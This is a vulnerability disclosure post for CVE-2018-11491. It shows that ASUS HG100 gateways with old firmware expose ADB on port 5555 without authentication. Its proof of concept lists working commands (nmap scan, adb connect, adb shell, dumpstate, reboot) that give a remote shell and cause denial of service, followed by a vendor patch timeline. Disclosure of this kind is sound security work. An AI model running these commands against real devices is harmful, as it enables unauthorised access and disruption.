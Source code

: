 ```yaml
---
layout: post
title:  "CVE-2018-11491"
author: Mars Cheng
tags: CVE
---
```


## **<center> ASUS HG100 exists unauthenticated access vulnerability </center>**
#### Description:ASUS HG100 devices with firmware before 1.05.12 allow unauthenticated access, leading to remote command execution.

#### This vulnerability was discovered by **National Center for Cyber Security Technology (NCCST)**

<div style="text-align: center">
<img src="https://i.imgur.com/S5EAPKv.png"/>
</div>
<br>

---
<br>




### <center>Introduction of ASUS HG100 SmartHome GateWay</center>
<div style="text-align: center">
<img src="https://i.imgur.com/xkfNTTu.png"/>
</div>



| Length x width x height | Weight | Wireless connection |
| -------- | -------- | -------- |
| 152 x 67 x 167 mm     | 256g     | WiFi 802.11b/g/n ; ZigBee PRO ; BlueTooth 4.0   |

---

## <center>Proof of Concept</center>



### 1.Confirm IP

```
nmap --scanflags SYN 192.168.0.0/24
```
* Port 5555 open
<div style="text-align: center">
<img src="https://i.imgur.com/c4c7kwM.png"/>
</div>

### 2.Connect port 5555 with ADB
```
adb connect 192.168.0.100
```

<div style="text-align: center">
<img src="https://i.imgur.com/JM7pymJ.png"/>
</div>


```
adb shell
```

<div style="text-align: center">
<img src="https://i.imgur.com/8ur8l5p.png"/>
</div>


```
id
```

<div style="text-align: center">
<img src="https://i.imgur.com/RoryPJv.png"/>
</div>

```
dumpstate
```

* Show system process detail

<div style="text-align: center">
<img src="https://i.imgur.com/8QscCma.png"/>
</div>

### 3.Reboot device and Denial of Service 

```
reboot
```

<div style="text-align: center">
<img src="https://i.imgur.com/qnuaiFg.png"/>
</div>

* Check device status

<div style="text-align: center">
<img src="https://i.imgur.com/za4z9be.png"/>
</div>

### Timeline
*  February 6, 2018 Reported to ASUS Security
*  July 3, 2018 Patch released 


### Reference
1. https://www.asus.com/tw/News/qnEosWKPVDpmOeqL
2. https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-11491
